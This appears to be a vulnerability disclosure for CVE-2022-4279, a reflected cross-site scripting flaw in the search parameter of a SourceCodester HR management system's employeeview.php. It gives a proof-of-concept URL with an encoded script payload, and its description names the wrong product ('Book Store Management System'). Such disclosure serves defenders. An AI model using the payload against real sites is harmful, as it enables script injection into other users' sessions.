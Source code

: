 # [CVE-2022-4279](https://vuldb.com/?id.214776)

SourceCodester Human Resource Management System 1.0 /hrm/employeeview.php Cross Site Scripting

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A Reflected cross-site scripting (XSS) vulnerability in /hrm/employeeview.php with search handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeview.php

# Proof of Concept:

Find an injection

http://localhost/employeeview.php?searchview=Submit+Query&search="tusnj"#

![](images/xss-fuzzing.png)

XSS Exploit

http://localhost/hrm/employeeview.php?searchview=Submit+Query&search=sss%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput

![](images/xss-confirm.png)